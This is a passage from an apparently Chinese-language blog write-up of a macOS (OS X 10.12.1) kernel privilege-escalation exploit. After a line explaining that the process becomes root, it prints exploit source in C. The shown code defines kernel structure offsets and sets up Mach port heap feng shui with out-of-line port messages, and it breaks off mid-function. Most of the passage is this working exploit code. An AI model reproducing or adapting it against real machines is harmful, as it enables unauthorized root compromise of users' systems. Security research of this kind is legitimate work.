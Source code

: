 于是当前进程就成为了具有 root 权限（cr_ruid=0）的进程。

**<br>**

**漏洞利用代码（在 OS X 10.12.1 上通过测试）**

代码如下：****

```
#define PORT_COUNT 1024
#define USE_PORT_START 384
#define USE_PORT_HALF 512
#define USE_PORT_END 640
#define IO_BITS_ACTIVE 0x80000000
#define IKOT_CLOCK 25
#define IKOT_TASK 2
#define lck_spin_t char
#define TASK_GAP_IN_PROC 24
#define CR_RUID_GAP_IN_UCRED 24
#define TASK_GAP_IN_IPC_OBJ 104
#define ITK_KERN_SSELF_GAP_IN_TASK 232
#define UCRED_GAP_IN_PROCESS 232
#define TASK_INFO_GAP 896
#import &lt;stdio.h&gt;
#import &lt;stdlib.h&gt;
#import &lt;mach/mach.h&gt;
#import &lt;atm/atm_types.h&gt;
#import &lt;sys/mman.h&gt;
/* FROM osfmk/ipc/ipc_object.h -*/
typedef natural_t ipc_object_bits_t;
typedef natural_t ipc_object_refs_t;
typedef struct _ipc_object`{` 
    ipc_object_bits_t io_bits;
    ipc_object_refs_t io_references;
    lck_spin_t io_lock_data[1024];
`}`ipc_object;
/* ----------------------------*/
typedef struct _dumpdata`{`
    char* dump_port;
    char* dump_task;
    uint64_t dump_itk_kern_sself;
`}`dumpdata;
struct ool_send_msg`{`
    mach_msg_header_t msg_head;
    mach_msg_body_t msg_body;
    mach_msg_ool_ports_descriptor_t msg_ool_ports[16];
`}`;
struct ool_recv_msg`{`
    mach_msg_header_t msg_head;
    mach_msg_body_t msg_body;
    mach_msg_ool_ports_descriptor_t msg_ool_ports[16];
    mach_msg_trailer_t msg_trailer;
`}`;
struct ool_send_msg send_msg;
struct ool_recv_msg recv_msg;
mach_port_t* ool_port_fengshui()`{`
    int current_port_num = 0;
    mach_port_t* ool_ports;
    ool_ports = calloc(PORT_COUNT, sizeof(mach_port_t));
    // Part 1. Create OOL Ports
    for(current_port_num = 0; current_port_num &lt; PORT_COUNT; current_port_num++)`{` // Alloc 1024 Ports
        mach_port_allocate(mach_task_self(), MACH_PORT_RIGHT_RECEIVE, &amp;ool_ports[current_port_num]); // Alloc Port
        mach_port_insert_right(mach_task_self(), ool_ports[current_port_num], ool_ports[current_port_num], MACH_MSG_TYPE_MAKE_SEND); // MACH_MSG_TYPE_MAKE_SEND Right Set.
```